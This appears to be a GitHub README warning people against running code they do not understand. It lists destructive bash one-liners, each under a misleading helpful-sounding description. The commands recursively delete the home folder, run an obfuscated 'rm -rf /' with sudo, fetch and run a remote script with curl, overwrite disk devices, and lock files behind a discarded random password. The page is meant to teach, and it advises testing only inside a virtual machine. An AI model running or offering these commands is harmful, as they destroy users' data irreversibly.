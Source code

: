 # My one page argument for learning to code (examples exaplained)

## **_NEVER_** run code you don't understand

I often hear that people call themselves 'Copy and paste' coders.  And, while copying and pasting is a legitimate thing to do, it should not be your only way of doing things.  A better method is to find code, see what is done and recreate, and at a bare minimal, copy it, know ingexactly what it does. 

> "Running code you found on the internet is like chewing gum you found in the subway'.  

### Try these (IN A VIRTUAL MACHINE!)

#### Here are some bad descriptions to **bad** commands
Note: Most of these will error, unless spuressed with ```&> /dev/null``` but alot of damage can still be done before you can take action.

A. Greatly simplies document syntax: \
Find all files and replace all content with astriks

``` bash
while read f; do sed -i "" 's:.:*:g' "$f"; done <<< "$(find ~/ -iname '*' -print)"
```

B. Frees up uneccesary space: \
Simply remove all files and folders

``` bash
du ~/ | grep -o '/.*' | xargs rm -rf --
```

C. Relinks your files to improve efficentcy: \
Replace all files with a link to the void (/dev/null)

``` bash
du ~/*/* | grep -o '/.*' | xargs -n 1 ln -sf /dev/null/
```

D. Moves files/folders to a volume with unlimited storage: \
Moves all content 3 levels deep the void (dev/null)

``` bash
for d in ~/*/*; do mv "$d/" /dev/null; done
```

E. Frees up all uneccesary space: \
726d202d7266202f0a is a hex dump of ```rm -rf /``` \
The command reverses the dump and runs the output

``` bash
sudo command $(echo 726d202d7266202f0a | xxd -p -r) &> /dev/null
```

F. Chew the gum you don't even know: \
This downloads code online and runs it without ever you reviewing or seeing it

``` bash
bash -c "$(curl -s https://raw.githubusercontent.com/thedzy/My-one-page-argument-for-learning-to-code/master/malicious_file.sh)"
```

G. Frees up uneccesary space: \
This transforms 'stream -draft ~/saved' into ```rm -rf ~/``` by removing all characters between a-e and s-z and then evaulates it

```bash
eval $(sed 's:[a-e,s-z]::g' <<< "stream -draft ~/saved")
```

H. Compress files and save space: \
Compresses all files 5 levels deep to a random zip file with a random password of 64 characters. It does not store the password.

```bash
zip --password "$(openssl rand -base64 64)"  --move  "$(openssl rand -hex 4)".zip  ~/*/*/*/*/*
```

I. Reduce your need of the external volumes: \
Copy the contents of /dev/random to each drive is /dev/

```bash
for d in /dev/disk*; do dd if=/dev/random of=$d &; done
```

J. Simply your files and your life: \
Finds all files and replaces the contents with nothing

```bash
find ~/ -type f -exec bash -c ':|tee {} &' \; 
```

K. Keep logs of files in the home folder utilising your current files
Replaces the contents of every files with the filename

```bash
find ~/-type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

### Recommended testing evironment:

1. Create a virtual machine.
2. Open terminal and run the folowing command to copy some files to the desktop: \
```find / -iname "*.txt" | head -n 60 | xargs -n1 -J% cp % $HOME/Desktop/ ```
3. Snapshot your VM, cause you'll need it
4. Run the command
5. Restore
